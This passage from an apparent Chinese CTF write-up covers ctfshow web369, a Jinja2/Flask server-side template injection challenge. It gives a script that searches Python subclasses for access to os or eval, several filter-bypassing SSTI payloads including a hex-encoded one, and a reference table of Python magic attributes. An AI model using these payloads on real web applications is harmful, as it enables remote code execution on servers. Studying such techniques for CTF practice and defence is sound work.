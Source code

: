 ```

    yield from visit(obj)


num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    try:
        if item.__init__.__globals__.keys():
            for path, obj in search(item,5):
                if obj in ('__builtins__','os','eval'):
                    print('[+] ',item,num,path)

        num+=1
    except:
        num+=1
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20221216150005-44d2ac66-7d0f-1.png)

有点慢啊，先让他跑着吧，有结果了再回来更新

### ctfshow web369

过滤单双引号、args、中括号\[\]、下划线、os、{undefined{、request

request被ban了，突然不知道怎么搞了

```
?name={{%27%27.__class__.__base__.__subclasses__()}}
?name={%print(%27%27|attr(class).|attr(base).|attr(subclasses())%}
```

总结
--

### 获取基类的几种办法

```
[].__class__.__base__
''.__class__.__mro__[2]
().__class__.__base__
{}.__class__.__base__
request.__class__.__mro__[8] 　　//针对jinjia2/flask为[9]适用
或者
[].__class__.__bases__[0]       //其他的类似

**注意：如果._'这些被过滤了，可以用16进制编码绕过！！！**
例如：{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()}}
特别注意用16进制编码之后里面要加"
```

```
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
__mro__              此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__()     返回这个类的子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
```